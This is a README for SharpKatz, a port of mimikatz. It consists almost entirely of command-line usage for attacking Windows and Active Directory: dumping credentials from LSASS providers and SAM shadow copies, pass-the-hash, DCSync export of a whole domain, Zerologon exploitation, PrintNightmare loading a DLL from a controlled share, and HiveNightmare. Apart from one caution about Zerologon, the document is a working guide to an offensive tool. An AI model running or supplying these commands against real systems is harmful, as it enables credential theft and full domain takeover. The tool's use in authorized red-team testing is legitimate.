 # SharpKatz
Porting of mimikatz sekurlsa::logonpasswords,  sekurlsa::ekeys and lsadump::dcsync commands

## Usage

### Ekeys

```SharpKatz.exe --Command ekeys```<br>
 list Kerberos encryption keys <br>
 <br>

### Msv

```SharpKatz.exe --Command msv``` <br>
Retrive user credentials from Msv provider <br>
<br>

### Kerberos

```SharpKatz.exe --Command kerberos```<br>
Retrive user credentials from Kerberos provider <br>
<br>

### Tspkg

```SharpKatz.exe --Command tspkg```<br>
Retrive user credentials from Tspkg provider <br>
<br>

### Credman

```SharpKatz.exe --Command credman```<br>
Retrive user credentials from Credman provider <br>
<br>

### WDigest

```SharpKatz.exe --Command wdigest```<br>
Retrive user credentials from WDigest provider <br>
<br>

### Logonpasswords

```SharpKatz.exe --Command logonpasswords```<br>
Retrive user credentials from all providers <br>
<br>

### List shadowcopies

```SharpKatz.exe --Command listshadows```<br>
Enumerate shadowcopies with NtOpenDirectoryObject and NtQueryDirectoryObject<br>
<br>

### Lsadumpsam

```SharpKatz.exe --Command dumpsam --System \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM --Sam \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SAM```<br>
Dump credential from provided sam database<br>
<br>

### Pth

```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password<br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --Rc4 rc4key```<br>
Perform pth to create a process under userdomain\username credential user's rc4 key<br>
<br>
```SharpKatz.exe --Command pth --Luid luid --NtlmHash ntlmhash```<br>
Replace ntlm hash for an existing logonsession <br>
<br>
```SharpKatz.exe --Command pth --User username --Domain userdomain --NtlmHash ntlmhash --aes256 aes256```<br>
Perform pth to create a process under userdomain\username credential with ntlm hash of the user's password and aes256 key <br>
<br>

### DCSync

```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc```<br>
Dump user credential by username <br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc```<br>
Dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc```<br>
Export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
```SharpKatz.exe --Command dcsync --User user --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by username using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Guid guid --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Dump user credential by GUID using alternative credentials<br>
<br>
```SharpKatz.exe --Command dcsync --Domain userdomain --DomainController dc --AuthUser authuser --AuthDomain authdomain --AuthPassword authuserpassword```<br>
Export the entire dataset from AD to a file created in the current user's temp forder using alternative credentials<br>
<br>

### Zerologon

No reference to logoncli.dll, using the direct rpc call works even from a [non-domain joined workstation](https://twitter.com/gentilkiwi/status/1306178689630076929)

```SharpKatz.exe --Command zerologon --Mode check --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon check <br>
<br>
```SharpKatz.exe --Command zerologon --Mode exploit --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$```<br>
Perform Zerologon attack <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --User krbtgt --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by username <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --Guid guid --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and dump user credential by GUID <br>
<br>
```SharpKatz.exe --Command zerologon --Mode auto --Target WIN-NSE5CPCP07C.testlab2.local --MachineAccount WIN-NSE5CPCP07C$ --Domain testlab2.local --DomainController WIN-NSE5CPCP07C.testlab2.local```<br>
Perform Zerologon attack and export the entire dataset from AD to a file created in the current user's temp forder<br>
<br>
Note: Do not use zerologon in a production environment or at least plan for recovery actions which are detailed [here](https://github.com/dirkjanm/CVE-2020-1472) 

### PrintNightmare CVE-2021-1675 - CVE-2021-34527

```SharpKatz.exe --Command printnightmare --Target dc --Library \\\\mycontrolled\\share\\fun.dll```<br>
Perform PrintNightmare attack <br>
<br>
```SharpKatz.exe --Command printnightmare --Target dc --Library \\\\mycontrolled\\share\\fun.dll --AuthUser user --AuthPassword password --AuthDomain dom```<br>
Perform PrintNightmare attack with provided credentials<br>
<br>

### HiveNightmare CVE-2021-36934

```SharpKatz.exe --Command hiveghtmare```<br>
Exploit HiveNightmare vulnerability selecting the first available shadowcopy <br>
<br>


## Credits

This project depends entirely on the work of [Benjamin Delpy](https://twitter.com/gentilkiwi) and [Vincent Le Toux](https://twitter.com/mysmartlogon) on [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [MakeMeEnterpriseAdmin](https://raw.githubusercontent.com/vletoux/MakeMeEnterpriseAdmin/master/MakeMeEnterpriseAdmin.ps1) projects.<br>
The analysis of the code was conducted following the example from [this blog post](https://blog.xpnsec.com/exploring-mimikatz-part-1/) by [xpn](https://twitter.com/_xpn_).<br>
<br>
